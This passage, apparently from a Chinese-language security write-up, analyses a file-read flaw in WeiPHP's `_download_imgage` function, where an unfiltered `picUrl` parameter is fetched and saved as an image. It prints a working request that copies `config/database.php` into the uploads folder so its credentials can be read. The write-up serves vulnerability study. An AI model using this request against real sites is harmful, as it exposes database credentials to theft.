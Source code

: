 ```php
                $cover_id = do_down_image($media_id);
                if (!$cover_id) {
                    return 0;
                    exit();
                }
            }
```



分析传入变量 `picUrl` 的 `wp_file_get_contents`方法



```php
$content = wp_file_get_contents($picUrl);
```



函数文件位置 `application\common.php`



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/weiphp-4.png)



可以看到这里没有对我们的参数进行过滤，只做了一个有关超时的操作, 回到函数继续向下分析



```php
$picExt = substr($picUrl, strrpos($picUrl, '=') + 1);
if (empty($picExt) || $picExt == 'jpeg' || strpos('jpg,gif,png,jpeg,bmp', $picExt) === false) {
                $picExt = 'jpg';
}
$picName = NOW_TIME . uniqid() . '.' . $picExt;
$picPath = $savePath . '/' . $picName;
$res = file_put_contents($picPath, $content);
```



这里创建了有关当前时间的图片文件，并写入文件夹`/public/uploads/picture/` 下



我们先尝试控制变量 `$picUrl` 来写入数据库配置文件到图片中



```plain
/public/index.php/material/Material/_download_imgage?media_id=1&picUrl=./../config/database.php
```



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/weiphp-5.png)



查看目录`/public/uploads/picture/`，并用记事本打开写入的jpg文件



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/weiphp-6.png)
